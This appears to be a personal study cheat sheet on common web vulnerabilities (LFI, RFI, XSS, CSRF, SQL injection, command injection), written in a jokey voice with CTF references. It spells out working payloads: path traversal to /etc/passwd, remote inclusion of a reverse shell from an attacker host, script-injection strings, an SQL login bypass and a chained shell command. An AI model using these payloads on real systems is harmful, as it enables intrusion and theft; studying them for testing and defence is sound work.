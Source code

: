 - Mostly known stuff. slightly outdated

Only cool stuff written below 😎

# Common web vulns simplified

# Local file Inclusion,LFI
- file included in the vulnerable webservers directory
Normally
`http://domain_name//index.php?file=hack.html`

hacked 😎
`http://domain_name//index.php?file=../../../../etc/passwd`


# Remote File Inclusion, RFI
- load a file from a remote server (ie the attackers server)
Normally
`http://domain_name//index.php?file=hack.html`

hacked 😎
`http://domain_name//index.php?file=http://hacker_ip/reverseshell.php`

Note: Can be any service eg smb:// ftp:// etc so if http is blocked theres others
eg `http://school.flight.htb/index.php?view=//myipaddress/test` --> used in htb flight(hard)


# Cross site scripting, XSS
- happens usually if some element on the page changes dynamically to user input
- Eg: blog posts, timers, Tables etc

### Reflected XSS
- input is reflected on the users side
placing `<script>alert('hacked')</script>` in the input field somewhere
hacked 😎

### Stored XSS
- the stored kind like blogs,posts
uploading `<script>alert('hacked')</script>` as a posts or something
hacked 😎

- can also be done to header fields
- intercept using burp proxy
- change the header required to `<script>alert('hacked')</script>`
example given has site showing the browser agents of posts sent to it
So, change the User-Agent: `<script>alert('hacked')</script>`
hacked 😎


### DOM XSS
- Document object Model version of xss
- change scripts being run on the webpage itself (F12 or view source)
- the original script tries to pull data from the server
Example given:
Some site to create a password for user gus



Original script
```html
<script>
try {document.getElementById("idUsernameInput").innerHTML = " This pw is for gus";}
catch(e) {alert"Error: " + e.message; }
//end catch
</script>
```

Hacked script made to look legit 
```html
<script>
try {document.getElementById("idUsernameInput").innerHTML = " This pw is for  c
catch(e){};
alert("hacked"); 
try {v="";}
catch(e){alert"Error: " + e.message; }
//end catch
</script>
```

Part added replacing gus with the code  (sort of like a sqli) 
`";}catch(e){};alert("hacked");try {v="`
-> Send this to a encoder then encode as URL
-> burp suite Decoder, Encode as URL
Looks like below
`%22%3b%.........%3d%22`

Send payload in the url
original url: `http://smt/index.php?page=password-generator.php&username=gus`
hacked urlurl: `http://smt/index.php?page=password-generator.php&username=%22%3b%.........%3d%22`  😎


### Javascript input blocked on client side?? Cant type it directly in input box???
- worry no more
- burp proxy, edit the input, send it


# Cross-Site Request Forgery, CSRF 

- Takes advantage of trust given to an existing user session (eg cookies after logging in)
- This trust can pesist bewteen pages (so page 1 legit login, page 2 maliious page and press button that gives attacker the cookie )


- Could be to execute code on the server with elevated access or for attacker to gain a backdoor in to that users session
- different from XSS cos it relied on victims session! **(aka session riding)**

XSS you execute the js code and create a session etc. 
CSRF you use the victims session (and execute code if u want)


# SQLi
1. Query database for user data
2. Bypass login
3. Execute system commands
4. Manipulate data stored to gain access

## Auth bypass
Eg
select * from users where username ='admin' or 1=1 -- and password = ''
username: admin' or 1=1 --
password: 
hacked 😎

## Data Extraction
somehow get below into an input field
select * from users
hacked 😎

## Blind SQL
- cant see the output but same as before

## Command injection
Eg Site that searches ip for domain
- Guess that its using:
`nslookup <ip>`
where  `<ip>`  is taken from the input field

So,
In the input field put `<ip> && dir`
overall code executed on server
`nslookup <ip> && dir`
hacked 😎

